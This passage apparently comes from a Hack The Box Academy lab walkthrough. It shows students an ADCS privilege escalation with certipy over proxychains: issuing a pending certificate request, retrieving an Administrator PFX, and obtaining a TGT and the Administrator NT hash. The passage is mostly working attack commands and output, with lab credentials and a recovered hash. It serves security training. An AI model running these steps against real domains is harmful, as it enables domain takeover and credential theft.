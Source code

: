 Code: shell

```shell
proxychains -q certipy ca -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -issue-request 11
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q certipy ca -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -issue-request 11

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

After that, students need to abuse the `ManageCertificates` rights that `cken` possesses to retrieve the issued certificate; students need to use the `req` command of `certipy`, specifying the `Request ID` previously attained for the `-retrieve` option to attain a `PFX` certificate for the `Administrator` user:

Code: shell

```shell
proxychains -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -retrieve 11
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -retrieve 11

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 11
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Loaded private key from '11.key'
[*] Saved certificate and private key to 'administrator.pfx
```

Utilizing the certificate, students need to tunnel via `proxychains` the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `6e599ada28db049c044cc0bb4afeb73d`:

Code: shell

```shell
proxychains -q certipy auth -pfx administrator.pfx -domain lab.local -dc-ip 172.16.19.3
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q certipy auth -pfx administrator.pfx -domain lab.local -dc-ip 172.16.19.3

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:6e599ada28db049c044cc0bb4afeb73d
```
